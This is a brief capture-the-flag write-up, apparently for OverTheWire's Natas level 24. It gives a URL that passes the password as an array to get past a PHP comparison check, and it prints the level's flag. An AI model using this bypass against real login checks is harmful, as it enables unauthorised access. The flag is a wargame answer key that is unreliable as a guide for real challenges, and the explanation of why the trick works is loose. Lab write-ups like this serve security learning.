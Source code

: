 ```yaml
---
layout: default
title: natas24
---
```


# Natas Level 24 Solution

this is the url `http://natas24.natas.labs.overthewire.org/?passwd[]=%27%27`

It interprets passwd as an array where passwd[0] = ''
then, it crashed and pass the check.

**Flag:** ***`ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws`*** 